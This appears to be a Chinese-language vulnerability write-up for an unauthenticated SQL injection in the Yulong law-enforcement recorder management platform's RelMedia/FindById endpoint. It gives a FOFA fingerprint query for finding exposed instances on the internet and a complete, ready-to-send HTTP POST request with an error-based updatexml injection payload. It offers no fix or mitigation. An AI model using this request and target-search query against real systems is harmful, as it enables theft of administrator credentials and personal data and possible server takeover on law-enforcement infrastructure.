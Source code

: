 # 誉龙数字执法记录仪管理平台 FindById存在SQL注入漏洞

# 一、漏洞简介
誉龙数字执法记录仪管理平台是深圳誉龙数字技术有限公司开发的执法记录仪管理平台，誉龙视音频综合管理平台 RelMedia/FindById 存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 二、影响版本
+ 誉龙数字执法记录仪管理平台

# 三、资产测绘
+ fofa`body="PView 视音频管理平台"`
+ 特征

![1726295881688-5a934d40-ff14-4e0a-87a0-2dec0b87f3c3.png](./img/VYcOtKaJIFf_m5Yn/1726295881688-5a934d40-ff14-4e0a-87a0-2dec0b87f3c3-787765.png)

# 四、漏洞复现
```go
POST /index.php?r=RelMedia/FindById HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
 
id=1+and+updatexml(1,concat(0x7e,user(),0x7e),1)--+
```

![1726620841847-a47e8ed7-a3db-496f-a0d2-b1c430c144b2.png](./img/VYcOtKaJIFf_m5Yn/1726620841847-a47e8ed7-a3db-496f-a0d2-b1c430c144b2-977199.png)



> 更新: 2024-10-22 09:36:10  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mnghcs7bfd52x86g>